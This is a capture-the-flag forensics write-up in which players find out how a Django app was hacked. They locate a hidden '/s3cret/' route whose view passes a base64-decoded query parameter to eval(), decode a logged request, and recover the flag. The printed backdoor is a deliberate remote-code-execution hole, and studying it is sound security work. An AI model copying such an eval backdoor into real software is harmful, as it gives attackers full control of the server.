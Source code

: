 # Instapwn [(Asciicast)](https://asciinema.org/a/b7ejgtg9wmuli71vd1bkwmrz5)
## Problem
We are given a zip file with a Django app inside. We are told that the site has
been hacked, and we are supposed to find out how.

## Process
A good thing to do when looking at a Django app is check the URL routes. We looked
at `site/app/urls.py` and found an interesting route:

```py
(r'^s3cret/$', fun)
```

This didn't look like part of the app. Investigating further, we found the definition
of `fun` in `site/app/views.py`:

```py
def fun(request):
    if request.GET:
        logger.debug(eval(request.GET["lolimacmd"].decode("base64")))
    return HttpResponseRedirect('/')
```

This is probably how the site was hacked. Running `grep` on the logs, looking
for the `s3cret` route, we found a request:

```
[06/Sep/2015 22:21:50] "GET /s3cret/?lolimacmd=KGxhbWJkYSBhPSdmJyxiPSdsJyxjPSdhJyxkPSdnJyxlPSd7JyxmPSd3JyxnPSdoJyxoPSdlJyxpPSduJyxqPSdfJyxrPScxJyxsPSduJyxtPSdfJyxuPSdkJyxvPSdvJyxwPSd1JyxxPSdiJyxyPSd0JyxzPSdfJyx0PSdsJyx1PScwJyx2PScwJyx3PSdrJyx4PSdfJyx5PSdAJyx6PSdfJyxhYT0ndCcsYWI9J2gnLGFjPSdlJyxhZD0nXycsYWU9J2wnLGFmPScwJyxhZz0nZycsYWg9J3MnLGFpPSd9JzogImxvbCIpKCk= HTTP/1.1" 302 0
```

Base64 decoding this gives the Python code:

```py
(lambda a='f',b='l',c='a',d='g',e='{',f='w',g='h',h='e',i='n',j='_',k='1',l='n',m='_',n='d',o='o',p='u',q='b',r='t',s='_',t='l',u='0',v='0',w='k',x='_',y='@',z='_',aa='t',ab='h',ac='e',ad='_',ae='l',af='0',ag='g',ah='s',ai='}': "lol")()
```

This code simply returns "lol", which is unhelpful, but looking at the variable
assignments, we can see a flag. We wrote some quick Python to get the values:

```py
>>> s = "a='f',b='l',c='a',d='g',e='{',f='w',g='h',h='e',i='n',j='_',k='1',l='n',m='_',n='d',o='o',p='u',q='b',r='t',s='_',t='l',u='0',v='0',w='k',x='_',y='@',z='_',aa='t',ab='h',ac='e',ad='_',ae='l',af='0',ag='g',ah='s',ai='}'"
>>> s.split("'")
['a=', 'f', ',b=', 'l', ',c=', 'a', ',d=', 'g', ',e=', '{', ',f=', 'w', ',g=', 'h', ',h=', 'e', ',i=', 'n', ',j=', '_', ',k=', '1', ',l=', 'n', ',m=', '_', ',n=', 'd', ',o=', 'o', ',p=', 'u', ',q=', 'b', ',r=', 't', ',s=', '_', ',t=', 'l', ',u=', '0', ',v=', '0', ',w=', 'k', ',x=', '_', ',y=', '@', ',z=', '_', ',aa=', 't', ',ab=', 'h', ',ac=', 'e', ',ad=', '_', ',ae=', 'l', ',af=', '0', ',ag=', 'g', ',ah=', 's', ',ai=', '}', '']
>>> l=_
>>> l[1::2]
['f', 'l', 'a', 'g', '{', 'w', 'h', 'e', 'n', '_', '1', 'n', '_', 'd', 'o', 'u', 'b', 't', '_', 'l', '0', '0', 'k', '_', '@', '_', 't', 'h', 'e', '_', 'l', '0', 'g', 's', '}']
>>> 
>>> "".join(_)
'flag{when_1n_doubt_l00k_@_the_l0gs}'
```

## Solution
The solution is the concatenation of the variable values from a request made to
the `/s3cret/` route. The flag is `flag{when_1n_doubt_l00k_@_the_l0gs}`.
